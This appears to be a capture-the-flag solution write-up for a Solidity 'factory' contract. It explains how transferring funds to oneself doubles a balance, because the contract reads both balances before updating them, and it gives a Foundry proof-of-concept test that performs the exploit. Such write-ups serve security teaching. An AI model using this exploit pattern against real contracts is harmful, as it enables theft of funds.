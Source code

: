 # Solution

## Description

The bug lies in the `transfer` function. The `transfer` function transfers the balance from one user to another user and does not check if the `_from` & `_to` are the same user or not. This leads to doubling the balance of a user.

## Attack Scenario

1. user1 `supply` 100 units.

2. user1 then `transfer` the 100 unit to himself i.e. to user1.

3. the `frombalance` stores the balance of `_from` (i.e. user1) and later updated the mapping of `_balances[from]`.

   > \_balances[_from] = frombalance - \_amount;

   > 100 - 100 = 0

4. the `tobalance` stored the balance of `_to` (i.e. again user1) which is 100 and `_balances[to]` mapping of user1 is incremented by 100.

   > \_balances[_to] = tobalance + \_amount;

   > 100 + 100 = 200

5. And now the balance of user1 is 200. Doubled the amout of supply

This way User1 is able to exploit a vulnerability in the contract to remove exactly double the amount you supply.

## PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "src/factory.sol";


contract testfactory is Test, factory{

    factory _factory;
    address user1 = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4;
    address user2 = 0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2;
    function setUp() public {
        vm.prank(owner);
        _factory = new factory();


        vm.deal (user1 , 100);
        vm.deal (user2 , 100);


        vm.prank(user1);
        _factory.supply(user1, 100);
        vm.prank(user2);
        _factory.supply(user2, 100);
    }


    function testFactory() public {
        vm.prank(user1);

          //solution
        _factory.transfer(user1, user1, 100);



        uint256 newbalance = _factory.checkbalance(user1);
        assertEq(newbalance, 200);
    }
}
```
